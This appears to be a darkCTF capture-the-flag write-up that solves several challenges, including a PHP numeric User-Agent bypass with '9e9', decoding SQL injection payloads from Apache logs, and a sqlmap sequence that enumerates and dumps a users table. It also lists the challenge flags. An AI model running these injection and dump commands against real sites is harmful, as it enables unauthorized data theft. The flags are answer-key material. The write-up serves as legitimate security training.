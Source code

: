 ## Misc

### sanity_check
![](img/sanity_check02.png)

We got our first flag from Discord

![](img/sanity_check.png)

**Flag: darkCTF{w3lc0me_t0_darkCTf_h4v3_fUn}**

## Linux
### linux starter
![](img/linux_starter.png)

Okay lets fire up the terminal

```shell
root@*****:/home/z3n# ssh wolfie@linuxstarter.darkarmy.xyz -p 8001                                                  
The authenticity of host '[linuxstarter.darkarmy.xyz]:8001 ([52.66.238.72]:8001)' can't be established.                 
ECDSA key fingerprint is SHA256:c89dVKmOwWcuk3nhpaDFytMNR3U8Ph44wwIjTm8VECY.                                            
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes                                                
Warning: Permanently added '[linuxstarter.darkarmy.xyz]:8001,[52.66.238.72]:8001' (ECDSA) to the list of known hosts.   
Password: wolfie
wolfie@9ad161dbc9ce:~$
wolfie@9ad161dbc9ce:~$ ls
bin  imp                                                                                                                
wolfie@9ad161dbc9ce:~$ cd imp/
wolfie@9ad161dbc9ce:~/imp$ ls
flag.txt                                                                                                                
wolfie@9ad161dbc9ce:~/imp$ cat flag.txt                                                                                 
darkCTF{h0pe_y0u_used_intended_w4y}                                                                                     
```
**Flag: darkCTF{h0pe_y0u_used_intended_w4y}**

## Web
### Source
![](img/source00.png)

They gave us a source File:
```php
<html>
    <head>
        <title>SOURCE</title>
        <style>
            #main {
    height: 100vh;
}
        </style>
    </head>
    <body><center>
<link rel="stylesheet" href="https://www.w3schools.com/w3css/4/w3.css">
<?php
$web = $_SERVER['HTTP_USER_AGENT'];
if (is_numeric($web)){
      if (strlen($web) < 4){
          if ($web > 10000){
                 echo ('<div class="w3-panel w3-green"><h3>Correct</h3>
  <p>darkCTF{}</p></div>');
          } else {
                 echo ('<div class="w3-panel w3-red"><h3>Wrong!</h3>
  <p>Ohhhhh!!! Very Close  </p></div>');
          }
      } else {
             echo ('<div class="w3-panel w3-red"><h3>Wrong!</h3>
  <p>Nice!!! Near But Far</p></div>');
      }
} else {
    echo ('<div class="w3-panel w3-red"><h3>Wrong!</h3>
  <p>Ahhhhh!!! Try Not Easy</p></div>');
}
?>
</center>
<!-- Source is helpful -->
    </body>
</html>
```
and for the flag we need to validate:
```php
$web = $_SERVER['HTTP_USER_AGENT'];
if (is_numeric($web)){
      if (strlen($web) < 4){
          if ($web > 10000){
                 echo ('<div class="w3-panel w3-green"><h3>Correct</h3>
  <p>darkCTF{}</p></div>');
```
from a google search I found out you can pass '9e9' as User-Agent, which is a numeric, has only length of 3, and its equal to 9000000000 which is obviously more than 10000.
I edited the user-agent to '9e9 'and sent a new request from my firefox and got the flag.

![](img/source01.png)

**Flag: darkCTF{changeing_http_user_agent_is_easy}**


### Apache Logs
![](img/apache_logs.png)

From the logs we could see some SQLi payloads
after URL Decoding;
![](img/apache_logs01.png)

Then I used cyberchef to decode from decimal to ascii
![](img/apache_logs02.png)

**Flag: DarkCTF{5ql_1nj3ct10n}**


### Simple_SQL
![](img/simple_sql00.png)

I visted the website and from the source code they mentioned to use 'Try id as parameter':
```html
<!DOCTYPE html>
<html>
<head>
<title>Simple SQL</title>
<style>
</style>
</head>
<body bgcolor=black>
<center><font color=red class=title>Welcome Players To My Safe House </font></center> <br>
<br><!-- Try id as parameter  --> 
</body>
</html>
```
Let's start from 1
![](img/simple_sql01.png)

from the 9th entry we got the flag
![](img/simple_sql.png)
**Flag: darkCTF{it_is_very_easy_to_find}**

### So_Simple
![](img/so_simple.png)
Like previous challenge they gave a clue 'Try id as parameter'.
Okay, i was able to produce a sql error in /?id='
Lets try with SQLi. They mentioned You may get flag manually. I was lazy and I used SQLMap.
Here is the commands I used:
```shell
sqlmap -u http://web.darkarmy.xyz:30001/?id=8 --dbs
sqlmap -u http://web.darkarmy.xyz:30001/?id=8 --tables -D id14831952_security
sqlmap -u http://web.darkarmy.xyz:30001/?id=8 --columns -D id14831952_security -T users
sqlmap -u http://web.darkarmy.xyz:30001/?id=8 --dump -D id14831952_security -T users
```
we got the flag from users table  
![](img/so_simple01.png)  
**Flag: darkCTF{uniqu3_ide4_t0_find_fl4g}**

## Forensics
### Wolfie's Contact



ToDo: add Official and Community Writeup links
